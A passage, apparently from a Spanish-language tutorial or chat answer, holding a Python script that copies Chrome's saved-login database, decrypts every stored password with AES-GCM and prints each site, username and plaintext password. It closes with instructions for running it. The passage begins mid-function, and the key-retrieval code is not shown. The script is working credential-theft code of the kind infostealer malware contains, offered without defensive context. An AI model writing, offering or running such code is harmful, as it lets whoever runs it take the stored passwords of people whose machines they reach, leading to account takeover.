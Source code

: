 ```python
        cipher = AES.new(clave, AES.MODE_GCM, iv)
        return cipher.decrypt(payload)[:-16].decode()
    except Exception as e:
        return f"[Error al desencriptar]"

def extraer_contraseñas():
    clave = obtener_clave()
    login_db_path = os.path.join(os.environ["USERPROFILE"],
                                 "AppData", "Local", "Google", "Chrome",
                                 "User Data", "Default", "Login Data")

    # Hacemos una copia de la base de datos para evitar bloqueo
    db_copia = "Loginvault.db"
    shutil.copyfile(login_db_path, db_copia)

    conn = sqlite3.connect(db_copia)
    cursor = conn.cursor()

    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")

    for fila in cursor.fetchall():
        url = fila[0]
        usuario = fila[1]
        password_encriptada = fila[2]

        password_desencriptada = desencriptar_contraseña(password_encriptada, clave)

        if usuario or password_desencriptada:
            print(f"🌐 Sitio: {url}")
            print(f"👤 Usuario: {usuario}")
            print(f"🔑 Contraseña: {password_desencriptada}")
            print("-" * 40)

    cursor.close()
    conn.close()
    os.remove(db_copia)

# Ejecutar
extraer_contraseñas()
```

---

### ▶️ ¿Cómo ejecutarlo?

1. Asegúrate de que **Chrome esté cerrado**.
2. Ejecuta el script:

```bash
python extraer_contrasenas_chrome.py
```
